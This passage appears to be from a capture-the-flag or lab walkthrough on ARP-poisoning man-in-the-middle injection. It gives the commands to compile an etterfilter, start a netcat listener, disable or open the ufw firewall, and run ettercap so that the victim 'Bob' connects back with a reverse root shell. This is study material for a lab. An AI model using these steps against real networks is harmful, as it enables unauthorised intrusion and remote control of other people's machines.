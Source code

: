 - **Step 1 & Step 2:**

![image](https://user-images.githubusercontent.com/94720207/166802864-dbcd4141-15b2-41f9-96ac-be03ed71f6da.png)

3. Finally, we need to compile the `.ecf` into an `.ef` file:

    - `etterfilter whoami.ecf -o whoami.ef `

![image](https://user-images.githubusercontent.com/94720207/166803486-4bbff01d-645f-4672-8b6c-4d0680891f7a.png)

- Start your listener _(backgrounded)_. For the upper example above, you could use:

    - `nc -nvlp 666 &`

![image](https://user-images.githubusercontent.com/94720207/166803985-68176d8f-da00-47e2-bb04-76c8ac1d15af.png)

- **Before launching the Attack**, we still need to allow the incoming connection through the **`firewall`**. 

    - **Disable `ufw`** or create a corresponding allow rule; otherwise, Bob's reverse shell will be blocked by the firewall:
    
        - `ufw allow in on eth1 from 192.168.12.20 to 192.168.12.66 port 666 proto tcp`
    
    - ![image](https://user-images.githubusercontent.com/94720207/166804689-87bce1e5-09f7-4d62-b61d-65ad8a3057ba.png)
     
    - **Or completely disable the firewall by running:** 
    
        - `ufw disable`
        
        - `ufw status verbose` 
        
        - ![image](https://user-images.githubusercontent.com/94720207/166804853-62231d5f-4939-49fe-8638-7841df783308.png)
 
    - Now, run ettercap specifying your newly created etterfilter file:
    
        - `ettercap -T -i eth1 -M arp -F whoami.ef`
    
    - A few seconds after executing this command, you should see the **"###### ETTERFILTER: …" message and/or "Connection received on 192.168.12.20 …"**  in your Netcat output, which means you've just caught a reverse shell from Bob! 
    
    - Now, you can quit ettercap (with q), foreground your Netcat listener (with fg), and enjoy your shell!
        
        - ![image](https://user-images.githubusercontent.com/94720207/166806514-c1cee88c-614f-49a0-995a-7ab34c373427.png)
        - ![image](https://user-images.githubusercontent.com/94720207/166806081-3beacb89-9c8c-4249-b3c2-8658bb1bbc56.png)
        - ![image](https://user-images.githubusercontent.com/94720207/166806295-ac22351f-1eb6-443a-a190-a736ff6bbf88.png)
        
    - **Root shell:**
        
        - ![image](https://user-images.githubusercontent.com/94720207/166812686-3fcbefb6-c37d-43b8-bebb-036af8e8f67b.png)

- _Hint: In case the reverse shell won't work, try replacing whoami with a suitable cat command to get the flag_
